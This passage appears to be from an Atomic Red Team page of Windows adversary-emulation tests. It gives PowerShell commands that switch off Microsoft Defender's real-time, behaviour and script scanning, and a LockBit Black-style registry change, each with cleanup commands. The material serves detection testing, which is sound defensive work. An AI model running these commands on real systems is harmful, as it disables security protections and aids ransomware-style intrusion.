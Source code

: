 **Supported Platforms:** Windows


**auto_generated_guid:** c531aa6e-9c97-4b29-afee-9b7be6fc8a64






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-MpPreference -drtm $True
Set-MpPreference -dbm $True
Set-MpPreference -dscrptsc $True
Set-MpPreference -dbaf $True
```

#### Cleanup Commands:
```powershell
Set-MpPreference -drtm 0
Set-MpPreference -dbm 0
Set-MpPreference -dscrptsc 0
Set-MpPreference -dbaf 0
```





<br/>
<br/>

## Atomic Test #32 - LockBit Black - Disable Privacy Settings Experience Using Registry -cmd
LockBit Black - Disable Privacy Settings Experience Using Registry

**Supported Platforms:** Windows


**auto_generated_guid:** d6d22332-d07d-498f-aea0-6139ecb7850e






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKCU\Software\Policies\Microsoft\Windows\OOBE" /v DisablePrivacyExperience /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKCU\Software\Policies\Microsoft\Windows\OOBE" /v DisablePrivacyExperience /f >nul 2>&1
```
